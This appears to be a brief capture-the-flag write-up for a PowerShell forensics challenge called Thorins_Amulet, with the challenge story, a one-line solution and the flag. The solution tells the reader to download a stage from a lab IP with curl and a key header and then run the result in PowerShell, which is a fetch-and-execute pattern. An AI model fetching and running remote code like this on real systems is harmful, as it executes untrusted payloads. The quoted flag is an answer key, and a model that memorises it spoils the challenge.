 # Thorins_Amulet
*Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.*

## Solution
1. Some simple powershell forensics, basically just do `curl 94.237.54.176:38855/a541a -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d"` and then eval the result with powershell.


## Flag
**Flag:** `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`
